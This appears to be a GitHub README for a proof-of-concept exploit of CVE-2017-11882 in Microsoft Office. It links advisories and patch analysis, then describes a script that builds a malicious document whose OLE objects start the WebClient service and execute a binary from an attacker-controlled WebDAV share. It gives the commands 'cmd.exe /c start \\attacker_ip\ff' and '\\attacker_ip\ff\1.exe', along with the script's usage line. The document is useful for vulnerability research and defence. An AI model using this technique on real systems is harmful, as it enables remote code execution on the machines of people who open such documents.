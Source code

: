 # CVE-2017-11882

CVE-2017-11882:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882

MITRE CVE-2017-11882:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11882

Research:
https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about

Patch analysis:
https://0patch.blogspot.ru/2017/11/did-microsoft-just-manually-patch-their.html

DEMO PoC exploitation:
https://www.youtube.com/watch?v=LNFG0lktXQI&lc=z23qixrixtveyb2be04t1aokgz10ymfjvfkfx1coc3qhrk0h00410



# webdav_exec CVE-2017-11882

A simple PoC for CVE-2017-11882.
This exploit triggers WebClient service to start and execute remote file from attacker-controlled WebDav server.
The reason why this approach might be handy is a limitation of executed command length.
However with help of WebDav it is possible to launch arbitrary attacker-controlled executable on vulnerable machine.
This script creates simple document with several OLE objects.
These objects exploits CVE-2017-11882, which results in sequential command execution.


The first command which triggers WebClient service start may look like this:

```
cmd.exe /c start \\attacker_ip\ff
```

Attacker controlled binary path should be a UNC network path:

```
\\attacker_ip\ff\1.exe
```

## Usage

```python
webdav_exec_CVE-2017-11882.py -u trigger_unc_path -e executable_unc_path -o output_file_name
```


# Sample exploit for CVE-2017-11882 (starting calc.exe as payload)

`example` folder holds an .rtf file which exploits CVE-2017-11882 vulnerability and runs calculator in the system.
